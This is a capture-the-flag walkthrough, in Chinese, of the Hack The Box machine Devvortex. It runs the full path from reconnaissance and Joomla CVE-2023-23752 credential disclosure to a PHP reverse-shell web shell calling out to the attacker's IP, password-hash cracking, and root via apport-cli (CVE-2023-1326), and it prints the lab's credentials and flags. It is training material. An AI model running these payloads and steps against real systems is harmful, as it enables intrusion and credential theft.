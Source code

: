 Devvortex

使用nmap扫描服务器

```
nmap -sV -sC  10.10.11.242
```

![image-20231209202245367](/home/gary/文档/GitHub/note/图片/image-20231209202245367.png)

使用wfuzz进行子域名爆破

```
wfuzz -c -w  /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://devvortex.htb" -H "Host:FUZZ.devvortex.htb"
```

![image-20231209210924605](../图片/image-20231209210924605.png)

爆破出dev的子域名，将子域名加入hosts

使用gobuster对dev.devvortex.htb进行目录扫描

```
gobuster dir -u http://dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200
```

![image-20231210085448057](../图片/image-20231210085448057.png)

扫描出administrator的目录发现登录页面

![image-20231210085547645](../图片/image-20231210085547645.png)

扫描出README.txt，发现joomla版本为4.2

![image-20231210090134052](../图片/image-20231210090134052.png)

发现是joomla cms在网上发现有专门的漏洞扫描工具：joomscan

下载

```
apt install joomscan
```

使用joomscan进行扫描

```
joomscan -url http://dev.devvortex.htb
```

![image-20231210133543870](../图片/image-20231210133543870.png)

扫描出joomla的版本为4.2.6 并且扫描出部分目录

通过搜索joomla 4.2.6版本爆出有未授权访问-CVE-2023-23752漏洞

影响版本

```
4.0.0 <= Joomla <= 4.2.7
```

构造路由 `/api/index.php/v1/config/application?public=true`

返回数据库信息

![image-20231210142738086](../图片/image-20231210142738086.png)



用户名：lewis

密码：P4ntherg0t1n5r3c0n##

使用这个密码在登录页面成功登录后台

![image-20231210143126921](../图片/image-20231210143126921.png)



在页面中写入一句话木马反弹nc

```
system('bash -c "bash -i >& /dev/tcp/10.10.14.75/5566 0>&1"');
```

![image-20231210144551598](../图片/image-20231210144551598.png)

在攻击机监听5566端口

```
nc -lvc 5566
```

访问/templates/cassiopeia/offline.php文件nc反弹成功

![image-20231210152232965](../图片/image-20231210152232965.png)

使用python 生成伪终端实用程序

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

登录mysql

``` 
mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
```

查询表单

```
show tables;
```

![image-20231210160913734](../图片/image-20231210160913734.png)

查询sd4fg_users表

```
select * form sd4fg_users
```

![image-20231210161403676](../图片/image-20231210161403676.png)



获取到hash值

```
lewis
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u 
logan
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 
```

使用john进行破解

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

![image-20231210163844177](../图片/image-20231210163844177.png)

爆破出密码：tequieromucho

使用密码ssh登录上去

```
ssh logan@10.10.11.242
```

查看flag 25900af2d9a5e5e8143ee8422e343c27

![image-20231210171626711](../图片/image-20231210171626711.png)

#### 提权

使用sudo -l 查看使用可以用root访问权限运行任何脚本

![file:///tmp/%E6%88%AA%E5%9B%BE_2023-12-10_16-48-18.png](../图片/截图_2023-12-10_16-48-18.png)

发现这个程序可以使用所有权限/usr/bin/apport-cli





搜索apport时发现新爆出漏洞[CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC)

POC

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
输入V
再输入!/bin/bash
```



![image-20231210171105864](../图片/image-20231210171105864.png)

已经提权到root，查看flag 

```
2ce219a001e6f5c9d05d041436e00028
```

![img](../图片/截图_2023-12-17_19-55-26.png)

